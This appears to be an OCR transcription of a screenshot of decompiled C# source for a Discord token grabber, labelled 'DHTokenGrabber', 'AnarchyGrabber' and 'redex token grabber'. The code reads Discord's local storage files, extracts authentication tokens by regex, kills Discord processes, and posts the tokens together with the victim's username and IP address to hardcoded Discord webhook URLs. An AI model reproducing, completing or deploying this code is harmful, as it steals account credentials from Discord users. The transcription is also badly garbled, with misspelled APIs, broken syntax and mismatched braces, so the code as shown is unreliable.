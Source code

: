 https://discord.com/api/webhooks/963089196401172560/3ucB3sG2Hn7IyRi-Rnpkd-7D4Hvxk8GztxtdKJt7Qqk5WZUmJ__ZXWGeRruGaLN36pP4
namespace DHTokenGrabber
{   
// token: RID: 365 RVA: file Offset:
internal class program
{

 // token:RID:366 RVA:0x00008888 File Offset:0x000000424
 private static void mai(string[]argvs)
 {  
     string text=Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\discord\\local storage\\leveldb";
     if(!Grabber.FinLfb(ref text)&& !Grabber.FinLog(ref text))
     {  
         program.SenWH("no valid .ldb or .log file found");
     }
     process[] processesByName= process.GetProcessysByName("Discord");
     for(int i = 0;i < processesByName.Lenght; i++)
     {
         processesByName[i].kill();
     }
     Thread.sleep(100);
     string text2 = Grabber.GetToken(text, text.EndsWith(".log"));
     if(text2 =="")
     {
         text2 = "not found";
     }
     program.SenWH(text2);
 }

 // Token: 0x0600007 RID: 7 RVA: 0x000022B4 File Offset: 0x000004B4
 private static void SenWH(string Token)
 {  
     httpClient httpClient = new httpClient();
     MultiPlataformDataContent MultiPlataformDataContent = new MultiPlataformDataContent(); 
     MultiPlataformDataContent.add(new stringContent("DiscordHaxx Token Grabber"), "username");
     MultiPlataformDataContent.add(new stringContent(), "avatar_url");
     MultiPlataformDataContent.add(new string.Concat(new string[]
{
"Token by"
Environment.username,
" on ",
program.GetIP();
"\r\nResult",
token
"content");
})),
try 
{
    HttpResponseMEssage result = httpClient.PostAsync(settings.WebHook, multiPlataformDataContent).Result;
}
catch (Exception)
{
}
 }
 // Token: 0x060008 RID: 365 RVA: 0x0000818 File Offset: 0x00009A18
 private static string GetIP()
 {
     string result;
     try
 }
  result = new httpClient().GetStringAsync("https://discord.com/api/webhooks/938615857230282814/PFin1M4HwQgFDBrorM-vveT5JKVvvVpqZrJG2W7tkg2rYFghkZkd74jZdBN8J6-IKP6A").result;
}
catch (WebException)
}
result = "enable to get  IP";
}
return result;
}
}
}   
public static void sendWebHook(string discordWebHook,   string content)
{
    try
    {   
        httpClient httpClient = new httpClient();
        Dictionary<string, string> nameValuecollection = new  Dictionary<string, string>
        { 
            {
                "content",
                "" + string.join("\n",new string[]
                {
                    content
                }) + ""
            },
            {
                "✿彡❤[𝓝𝓐𝓗𝓞𝓜𝓘]❤ミ✿#9921r"
                "redex token grabber"
            },
            {
                "https://discord.com/api/webhooks/963089196401172560/3ucB3sG2Hn7IyRi-Rnpkd-7D4Hvxk8GztxtdKJt7Qqk5WZUmJ__ZXWGeRruGaLN36pP4"

            }
        };
        httpClient.PostAsync(https://discord.com/api/webhooks/963089196401172560/3ucB3sG2Hn7IyRi-Rnpkd-7D4Hvxk8GztxtdKJt7Qqk5WZUmJ__ZXWGeRruGaLN36pP4, new ForUrlcodedContent(nameValuecollection)).GetAwaiter().GetResult();
        catch (WebException)
        {
        }
    }
    //AnarchyGrabber.Grabber   
    // token: RID:366 RVA:0x00008888 File Offset:e
    public static List<string> GetTokens(string dir, bool checklogs = false)
    {
        DirectoryInfo directoryinfo = new DirectoryInfo(Environment.GetFolderPath(Environment.SpecialFolder.UserProfile) + "\\AppData\\"
        + dir + "\\Local Storage\\leveldb");
        List<string> list = new List<string>();
        try 
        {
            foreach (FileInfo fileinfo in directoryinfo.Getfiles(checklogs ? "".log" : "".ldb"))
            {
                string input = fileInfo.OpenText().ReadToEnd();
                foreach (object obj in regex.Matches(input, "[\\w-]{24}\\.[\\w-]{6}\\.[\\w-}{27}"))
                {
                    Match macht2 = (Match)ojb2;
                    list.Add(macht2.Value);
                }
            }
        }
        catch
        {
        }
        list = list.Distinct<string>().Tolist<string>();
        bool flag = list.Count > 0;
        if (flag)
        {
            Grabber.TokensFound = true;
            List<string> list2 = list;
            int index = list.Count - 1;
            list2[index]+= " -NEWEST";
        }
        return list;

